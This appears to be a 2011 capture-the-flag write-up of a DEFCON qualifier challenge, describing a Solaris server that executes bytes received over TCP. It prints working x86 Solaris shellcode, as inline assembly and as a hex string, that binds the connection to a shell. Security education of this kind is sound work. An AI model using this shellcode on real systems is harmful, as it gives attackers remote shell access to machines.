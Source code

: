 ```yaml
---
title: DEFCON quals 19 - Pwtent Pwanble 200 writup
date: 2011-06-06 23:50 UTC
tags: hacking, infosec
---
```


Here’s how we solved the pp200 challenge, with the Shellphish team (by Manuel, Johannes, Don and I).

For this challenge, we were given an address/port and a file, which was a Solaris executable.
Opened in IDA, the executable turned out to be a simple forking server.   For each incoming TCP connection, if the source port is in the 5000-6000 range, 73 bytes are read and then executed (except the first byte).
The child thread just executed this:


```c
int __cdecl client_callback(int fd)
{
    void *v1; // esp@1
    uint16_t v2; // ax@3
    int v4; // [sp+0h] [bp-38h]@1
    int execute_buf; // [sp+Ch] [bp-2Ch]@1
    int *v6; // [sp+10h] [bp-28h]@1
    int v7; // [sp+14h] [bp-24h]@6
    void (*execute_the_buffer)(void); // [sp+18h] [bp-20h]@1
    socklen_t len; // [sp+1Ch] [bp-1Ch]@1
    struct sockaddr addr; // [sp+20h] [bp-18h]@1

    v6 = &v4;
    v1 = alloca(16 * ((unsigned int)(BUFSIZE + 30) >> 4));
    execute_buf = 16 * ((unsigned int)((char *)&execute_buf + 3) >> 4);
    execute_the_buffer = (void (*)(void))(16 * ((unsigned int)((char *)&execute_buf + 3) >> 4) + 1);
    len = 16;
    if ( getpeername(fd, &addr, &len) == -1 )
        exit(-1);
    v2 = ntohs(*(uint16_t *)&addr.sa_data[0]);
    printf("port: %d \n\n\n", v2);
    if ( ntohs(*(uint16_t *)&addr.sa_data[0]) > 0x1387u && ntohs(*(uint16_t *)&addr.sa_data[0]) <= 0x1770u )
        exit(-1);
    v7 = readAll(fd, execute_buf, BUFSIZE);
    printf("read %d bytes\n\n\n", v7);
    execute_the_buffer();
    return 0;
}
```
So, we needed to send a shellcode shorter than 72 bytes. Unfortunately,
Metasploit was of little help here, so we had to scout the web looking for
suitable candidates. After several cases of it-work-on-our-VM-but-not-at-DDtek,
we decided to roll our own.
                                                     
Here it is: it spawns a shell using the TCP connection file descriptor as
stdin, stdout and stderr.

```c
#include <stdio.h>
#include <sys types.h>
#include <unistd.h>
#include <fcntl.h>

void f(void);
    int
main(int argc, char **argv)
{
    f();
}
void f(void) 
{
    __asm__(
            //padding
            "nop \n"
            //dup 0 into 5
            "xor %edx, %edx \n"
            "xor %ebx, %ebx \n"
            "xor %edi, %edi \n"
            "xor %ecx, %ecx \n"
            "mov $9, %bl \n"
            "mov $62, %di \n"
            "mov $5, %cl \n"
            "push %edx \n"
            "push %ebx \n"
            "push %ecx \n"
            "push %edx \n"
            "mov %edi, %eax \n"
            "int $0x91 \n"
            //dup 1 into 5
            "push $1 \n"
            "push %ebx \n"
            "push %ecx \n"
            "push %edx \n"
            "mov %edi, %eax \n"
            "int $0x91 \n"
            //dup 2 into 5
            "push $2 \n"
            "push %ebx \n"
            "push %ecx \n"
            "push %edx \n"
            "mov %edi, %eax \n"
            "int $0x91 \n"
            //   //close stdin
            //   "push %edx \n"
            //   "push %edx \n"
            //   "incl %ecx \n"
            //   "mov %ecx, %eax \n"
            //   "int $0x91 \n"
            //shell
            "xorl   %eax,%eax \n"
            "pushl  %eax \n"
            "pushl  $0x68732f6e \n"
            "pushl  $0x69622f2f \n"
            "movl   %esp,%ebx \n"
            "pushl  %eax \n"
            "pushl  %ebx \n"
            "movl   %esp,%edx \n"
            "pushl  %eax \n"
            "pushl  %edx \n"
            "pushl  %ebx \n"
            "movb   $0x3b,%al \n"
            "pushl  %eax \n"
            "int    $0x91 \n"
            );
}
```


Total: 69 bytes (and 1 for padding).

Here’s the shellcode

```
\x90\x31\xd2\x31\xdb\x31\xff\x31\xc9\xb3\x09\x66\xbf\x3e\x00\xb1\x05\x52\x53\x51\x52\x89\xf8\xcd\x91\x6a\x01\x53\x51\x52\x89\xf8\xcd\x91\x6a\x02\x53\x51\x52\x89\xf8\xcd\x91\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe2\x50\x52\x53\xb0\x3b\x50\xcd\x91
```

That’s it. For my future reference, here’s the mapping between the familiar Debian commands and the OpenSolaris ones that were useful in the competition.

* apt-cache search  => pkg search
* apt-get install => pkg install
* strace => truss (strace didn’t appear to work)


Ciao!
